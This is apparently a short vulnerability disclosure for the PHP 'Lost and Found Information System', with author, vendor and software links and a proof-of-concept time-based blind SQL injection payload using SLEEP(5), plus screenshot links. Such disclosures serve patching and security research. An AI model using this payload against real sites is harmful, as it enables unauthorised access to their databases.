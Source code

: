 # Lost and Found Information System

**Exploit Title: Lost and Found Information System Blind SQL Injection**

**Date**: 4/03/2024

**Exploit Author:** y3thu

**Vendor Homepage:** [https://www.sourcecodester.com/users/tips23](https://www.sourcecodester.com/users/tips23)

**Software Link:** [https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)

**Attack Vector:** WEB, Network

**Testeted on:** Kali Linux

**POC**

- **payload:**
    
    ```jsx
    ' AND (SELECT 5506 FROM (SELECT(SLEEP(5)))Lwfa) AND 'SvjZ'='SvjZ
    ```
    <img width="724" alt="Untitled" src="https://github.com/yethu123/vulns-finding/assets/29069905/63f6b18d-01e2-4273-89fc-f6cb19c3d2ae">

https://github.com/yethu123/vulns-finding/assets/29069905/5ddb9600-7183-4a8f-bada-60de8af33e03

